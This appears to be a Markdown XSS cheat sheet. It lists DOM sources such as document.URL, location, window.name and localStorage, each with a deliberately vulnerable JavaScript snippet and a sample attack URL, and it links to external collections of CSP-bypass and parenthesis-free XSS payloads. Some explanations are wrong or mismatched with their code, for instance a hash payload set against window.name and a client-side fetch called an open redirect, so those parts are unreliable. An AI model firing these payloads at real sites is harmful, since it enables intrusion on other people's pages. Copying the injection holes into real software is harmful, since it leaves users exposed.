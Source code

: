 ### 1. **`document.URL` and `document.documentURI`**
Both return the URL of the current document. If inserted into a page without sanitization, they can be exploited for XSS.

**Example Payload URL:**
```bash
https://victim.com/page?url=<script>alert('XSS')</script>
```

**Code:**
```html
<p id="demo"></p>
<script>
    var url = document.URL;
    document.getElementById("demo").innerHTML = "Current URL: " + url;
</script>
```
If the URL parameter is displayed directly on the page, the script can execute without sanitization.

---

### 2. **`document.baseURI`**
This property returns the base URL of the document. It can lead to open redirects if used without validation.

**Example Open Redirect:**
```bash
https://victim.com/?redirect=https://evil.com
```

**Code:**
```html
<script>
    var redirectURL = document.baseURI + new URLSearchParams(window.location.search).get('redirect');
    window.location.href = redirectURL;
</script>
```
If `redirect` is processed without validation, users can be sent to a malicious site.

---

### 3. **`location` and `window.location`**
These refer to the current URL and are often used for XSS or open redirect if the URL data is used without validation.

**Example XSS Payload URL:**
```bash
https://victim.com/?name=<script>alert('XSS')</script>
```

**Code:**
```html
<p id="name"></p>
<script>
    var params = new URLSearchParams(window.location.search);
    var name = params.get('name');
    document.getElementById("name").innerHTML = "Hello " + name;
</script>
```
If the `name` parameter value is not sanitized, XSS can occur.

---

### 4. **`window.location.search`** (Accessing Query Parameters)
This returns the query string part of the URL. It can be dangerous if used to inject data into the DOM without sanitization.

**Example:**
```bash
https://victim.com/search?query=<img src=x onerror=alert(1)>
```

**Code:**
```html
<p id="searchResult"></p>
<script>
    var searchQuery = window.location.search;
    document.getElementById("searchResult").innerHTML = "Search result for: " + searchQuery;
</script>
```

---

### 5. **`fetch()` and `XMLHttpRequest`**
Both are used to retrieve data from a server. If the URL is taken from user parameters, this can lead to open redirects or SSRF.

**Example Open Redirect:**
```bash
https://victim.com/fetch?url=https://evil.com
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var targetURL = params.get('url');
    fetch(targetURL)
        .then(response => response.text())
        .then(data => console.log(data));
</script>
```
If `fetch` is used with a user-provided URL without validation, it can result in an open redirect.

---

### 6. **`document.cookie`**
Used to get or set cookies. XSS can occur if a cookie is set with user input without sanitization.

**Example:**
```bash
https://victim.com/?cookie=<script>alert(document.cookie)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var cookieValue = params.get('cookie');
    document.cookie = "user=" + cookieValue;
</script>
```
If the cookie value is set without sanitization, XSS can occur.

---

### 7. **`window.name`**
`window.name` can store data that is accessible across pages. It can be used for XSS if this value is inserted into a page.

**Example Payload:**
```bash
https://victim.com#"><img src=x onerror=alert(1)>
```

**Code:**
```html
<script>
    var windowName = window.name;
    document.write("Window name is: " + windowName);
</script>
```

---

### 8. **`history.pushState()` and `history.replaceState()`**
Both are used to manipulate the URL without reloading the page. If data from the URL is inserted into the page without sanitization, XSS can occur.

**Example XSS:**
```bash
https://victim.com/?state="><script>alert(1)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var state = params.get('state');
    history.pushState({}, '', '?state=' + state);
    document.write("New URL is: " + window.location.href);
</script>
```

---

### 9. **`localStorage` and `sessionStorage`**
Data stored in `localStorage` or `sessionStorage` can be abused if accessed or set with unsafe input.

**Example XSS:**
```bash
https://victim.com/?payload="><script>alert(1)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var payload = params.get('payload');
    localStorage.setItem('data', payload);
    document.write("Stored payload is: " + localStorage.getItem('data'));
</script>
```

**blocked by csp?**
- [https://github.com/RHYru9/rhyru9.github.io/blob/main/xss-cheatsheet/csp.txt](https://github.com/RHYru9/rhyru9.github.io/blob/main/xss-cheatsheet/csp.txt)

**xss without Prentheses**
- [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
---
